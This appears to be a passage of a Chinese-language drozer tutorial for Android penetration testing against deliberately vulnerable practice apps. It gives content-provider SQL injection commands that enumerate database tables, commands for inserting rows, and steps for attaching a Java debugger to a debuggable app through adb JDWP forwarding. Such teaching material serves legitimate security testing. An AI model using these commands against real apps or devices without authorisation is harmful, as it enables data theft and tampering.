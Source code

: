 ~~查看某个文件~~

> ~~run app.provider.read content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/~~

上面应该需要有文件访问权限才行

### SQL注入

使用projection参数和seleciton参数可以传递一些简单的SQL注入语句到Content provider。如

> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "'"

> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --selection  "'"

使用sql注入列出数据库中的所有数据表：

> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "* FROM SQLITE_MASTER WHERE type='table';--"

### 插入数据

查看表的数据结构及各列的名称等信息

> run app.provider.columns content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ 

插入数据进content provider，语法如下

> run app.provider.insert [URI] [--boolean [name] [value]] [--integer [name] [value]] [--string [name] [value]] ...

示例，

> run app.provider.insert content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/  --int id 10 --string name Tom

## 利用可调试的app

1. 列出设备上所有可调试的app

> run app.package.debuggable

2. 选择一个目标，用下面的命令运行它

> run app.activity.start --component org.owasp.goatdroid.fourgoats org.owasp.goatdroid.fourgoats.activities.Main

3. 运行起来后，使用adb连接java调试连接协议（Java Debug Wire Protocol）端口，它是一个在虚拟机实例上打开的专供调试使用的端口

> adb jdwp

4. adb返回的数字就是可以用来连接VM的端口，但是要在本地计算机上连接它之前，要先用adb转发这一端口，使用下面命令

> adb forward tcp:[本地端口] jdwp:[Android设备上的jdwp端口]
> . 

5. 现在可以从本地访问VM了，命令如下

> jdb -attach localhost:[PORT]

6. 连到Android设备上



# 编写drozer模块

...


